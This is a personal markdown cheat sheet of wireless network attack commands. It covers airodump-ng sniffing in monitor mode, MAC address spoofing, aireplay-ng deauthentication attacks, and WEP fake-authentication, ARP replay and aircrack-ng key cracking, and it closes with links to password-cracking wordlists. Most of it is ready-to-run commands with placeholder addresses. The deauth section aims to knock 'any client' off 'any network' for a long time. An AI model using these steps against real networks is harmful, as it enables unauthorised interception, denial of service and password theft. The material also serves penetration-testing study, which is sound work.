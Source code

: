 ```yaml
---
title: 5. cyber attack commands (Network Attacks)
date: 2024-12-03
draft: 
Toc: true
tags:
  - cybersec
  - tips/tricks
---
```


---

*note: its my personal research so there can be errors or more fast and powerful method available to do same attacks*

---
## Commands Related to Network Attacks:

packet sniffing : airodump-ng [monitor mode interface]

*first enable monitor mode;  then..*

- `ifconfig wlan0 down`

- `airmon-ng check kill` ( to kill the manager)
 
- `iwconfig wlan0 mode monitor`

- `ifconfig wlan0 up`

- `iwconfig` ( to check)
 
 
---
## network preconnection attack.txt

*note: need monitor mode on*

 - `airodump-ng wlan0 ( discover all wireless network and info around it)`

*sniff and discover 5Ghz networks*

- `airodump-ng --band a wlan0`  (a = 5Ghz)

*for sniffing multiple bands ( 2.4 & 5)*

- `airodump-ng --band abg wlan0`  ( all frequency)

*to siff only target network **

- `airodump-ng  --bssid XX:XX:XX:XX:XX:XX --channel X --write test wlan0` 

{ *"channel" for airodump-ng to sniff on and "write" for storing data in file* (xxxx.cap)}

- `wireshark` ( *to lauch wireshark or can open manually to check the xxxx.cap file filled with target data*)

---
## change your mac adresss:

- `ifconfig wlan0 down` (to make wlan0 down)

- `ifconfig wlan0 hw ether XX:XX:XX:XX:XX:XX` ( *random mac address*)

- `ifconfig wlan0 up` (*to make wlan0 up again*)

- `ifconfig` ( *to check *)
``
---
## deauthentication attack ( disconnect any client form any network)

- `aireplay-ng --deauth [deauth Pacekts] -a [Network Mac add] -c [Target Mac add]  [Interface]`

 *run airodump-ng in parallel terminal against the target network*

- `airodump-ng  --bssid XX:XX:XX:XX:XX:XX --channel X wlan0` (*no need of --write if u dont want file*)

- `aireplay-ng --deauth 100000000 -a XX:XX:XX:XX:XX:XX -c XX:XX:XX:XX:XX:XX  -D wlan0`

{ *100000000 give max packets to deauth for long time; "-D" if client is on 5Ghz network 
and if its in 2.4Ghz then remove the "-D"*}

*if client still has access to other networks then split the terminal and run same attack parallel on that network*

---
## Fake authentication attack (wep)

*forcing AP to generate new packets with new IVs*

- `aireplay-ng --fakeauth 0 -a [network Mac add] -h[our Mac add] wlan0`

- `airodump-ng --bssid XX:XX:XX:XX:XX:XX --channel x --write xxxx wlan0`
(*sniffing target network with storing data and running parallely*)
 
- `aireplay-ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h XX:XX:XX:XX:XX:XX wlan0`
(*0 for doing fake authentication attack once* )

*running arpreplay attack*

- `aireplay-ng --arpreplay -b XX:XX:XX:XX:XX:XX -h XX:XX:XX:XX:XX:XX wlan0`

*associate data 1 more time*

- `aireplay-ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h XX:XX:XX:XX:XX:XX wlan0`

- `aircrack-ng xxxx.cap`

----
## Gainning access (wep cracking)

*needs to capture large no. of packets
iv is too small(24 bits)
iv is sent in plain text*

*to capture large no. of packets/IVs*    --->   using airodump-ng
*to analyse the captured packets/IVs and crack the key* ----> using aircrack-ng

**step1:**
 *wireless adapter in monitor mode

- `airodump-ng wlan0` (  *discover all wireless network and info around it in parallel terminal*)

- `airodump-ng  --bssid XX:XX:XX:XX:XX:XX --channel X --write test wlan0`  
( *to capture packets of specefic target network and "--write" to sotred data in file*)

**step2:**

- `aircrack-ng xxxx.cap` (xxxx.cap = file name)

*will get key and ascii password, can connect through both and for key remove the colon*

---
## wpa/wpa2 cracking

*both can be cracked using the same methods

made to adress the issues in wep

much more secure

each packet is encrypted using a unique temporary key

packet contains no useful information*

---
## some-Links-To-wordlists

**Openwall Wordlists**  
Use: Offers a variety of password cracking wordlists for security testing and penetration testing.
ftp://ftp.openwall.com/pub/wordlists/

**Openwall Mirrors**  
Use: Mirror site for Openwall’s tools, providing easy access to its resources, including wordlists.
http://www.openwall.com/mirrors/

**SecLists on GitHub**  
Use: A collection of security-related wordlists for various penetration testing needs, like password cracking and directory brute forcing.
https://github.com/danielmiessler/SecLists

**Outpost9 Wordlists**  
Use: Provides password wordlists for cracking and penetration testing.
http://www.outpost9.com/files/WordLists.html

**Vulnerability Assessment Passwords**  
Use: Offers password wordlists for vulnerability assessments and security testing.
http://www.vulnerabilityassessment.co.uk/passwords.htm

**Packet Storm Wordlists**  
Use: A trusted resource offering various wordlists for security professionals, particularly for cracking passwords.
http://packetstormsecurity.org/Crackers/wordlists/

**Moby Wordlists**  
Use: Large collections of English wordlists used in password cracking and natural language processing tasks.
http://www.ai.uga.edu/ftplib/natural-language/moby/

**Cotse Wordlists 1**  
Use: Provides wordlists for security testing, including common passwords and user names.
http://www.cotse.com/tools/wordlists1.htm

**Cotse Wordlists 2**  
Use: Additional wordlists for password cracking and penetration testing.
http://www.cotse.com/tools/wordlists2.htm

**Wordlist Project**  
Use: A SourceForge project offering a variety of wordlists for password cracking and security testing.
http://wordlist.sourceforge.net/

---
[Crusveder]